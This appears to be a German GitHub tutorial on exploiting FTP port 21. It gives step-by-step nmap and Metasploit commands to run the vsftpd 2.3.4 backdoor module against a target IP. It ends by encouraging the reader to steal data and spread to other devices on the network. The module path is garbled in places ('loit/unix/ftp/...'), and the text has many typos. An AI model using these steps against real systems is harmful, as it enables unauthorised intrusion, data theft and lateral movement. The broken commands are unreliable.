 Exploit Ports:
Um einen Port zu exploiten muss man zuerst wissen welchen Port man angreift. Dazu wird ein Portscan benötigt u zu sehen welched Portsoffen sind.

sudo nmap -p- -sV -O {IP-Adresse des Ziels}
  
 <h2>Port 21:</h2>

service postgresql start
 service postgresql status 
  
Danach wird ein passwort verlangt
<img src="https://user-images.githubusercontent.com/57325335/134168995-94cda790-8dd0-4b10-aa4d-6c21b3ead126.png" alt="PStatus Serie" width="100" height="350">
  
  
Danach öffnet man die "msf console": msfconsole
  
In dieser Konsole sucht man nach einem Exploit für diese Version:
  
  search vsftpd 2.3.4
  So sieht es aus wenn ein Exploit existiert
![image](https://user-images.githubusercontent.com/57325335/134171809-b1af4e1a-e66e-42e8-a819-9b2ee5c7ad60.png)

loit/unix/ftp/vsftpd_234_backdoor
use exploit loit/unix/ftp/vsftpd_234_backdoor
  
show options
  ![image](https://user-images.githubusercontent.com/57325335/134179000-68e9e466-7846-439e-991a-19a5aa512d45.png)
Hier sieht an wie die Konfuguration aussieht. Man Merkt recht schnell das man noch die IP adresse des Host eintragen muss, damit man den Port 21 exploiten kann.
  
set RHOST {IP-Adresse des Ziels}
  
 Nohal kontrolieren mit: show options
  
 danah kann an einfah den Comand "exploit" absetzen
  ![image](https://user-images.githubusercontent.com/57325335/134179776-3da11699-69f9-4046-9d4c-dee49130c2b9.png)
  
  Da man nun imSystem ist kann man mit Befehlen wie WHOAMI oder $HOME sich auf dem Zielsystem umshehen, Daten klauen und seinen Zugrif aus Andere Geräte im Netzwerk erweitern. 

